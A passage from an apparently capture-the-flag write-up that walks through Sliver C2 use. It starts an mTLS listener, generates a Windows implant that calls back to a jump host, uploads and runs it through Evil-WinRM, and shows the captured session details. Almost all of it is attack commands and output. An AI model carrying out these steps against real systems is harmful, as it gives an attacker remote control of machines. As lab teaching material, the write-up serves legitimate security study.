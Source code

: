 ```
sliver > mtls --lport 6969

[*] Starting mTLS listener ...

[*] Successfully started job #1
```

And, generate the payload that will call back to the jump host on `TCP/41337` (remember `FwdRule1`):

```
sliver > generate --mtls 10.2.10.9:41337 -l -G --name initial

[*] Generating new windows/amd64 implant binary
[!] Symbol obfuscation is disabled
[*] Build completed in 8s
[*] Implant saved to /home/kali/ctf/initial.exe
```

Lastly, upload and run the payload on `Southern-Tower`:

```
*Evil-WinRM* PS C:\Users\gatari\Documents> upload initial.exe
                                        
Info: Uploading /home/kali/ctf/initial.exe to C:\Users\gatari\Documents\initial.exe
                                        
Data: 13330432 bytes of 13330432 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\gatari\Documents> .\initial.exe
```

And, the session is captured on the teamserver.

```
[*] Session 2b53ae3b initial - 127.0.0.1:33024 (Southern-Tower) - windows/amd64 - Fri, 09 May 2025 04:40:44 EDT

sliver > sessions -i 2b

[*] Active session initial (2b53ae3b)

sliver (initial) > info

        Session ID: 2b53ae3b-2f5a-4f87-84da-b6574ba8d097
              Name: initial
          Hostname: Southern-Tower
              UUID: 482c6d27-478a-4eda-985a-49b9abd79fe4
          Username: SOUTHERN-TOWER\gatari
               UID: S-1-5-21-3367427693-1023454350-3607259003-1004
               GID: S-1-5-21-3367427693-1023454350-3607259003-513
               PID: 3296
                OS: windows
           Version: Server 2016 build 20348 x86_64
            Locale: en-US
              Arch: amd64
         Active C2: mtls://10.2.10.9:41337
    Remote Address: 127.0.0.1:33024
         Proxy URL: 
Reconnect Interval: 1m0s
     First Contact: Fri May  9 04:40:44 EDT 2025 (47s ago)
      Last Checkin: Fri May  9 04:40:44 EDT 2025 (47s ago)
```
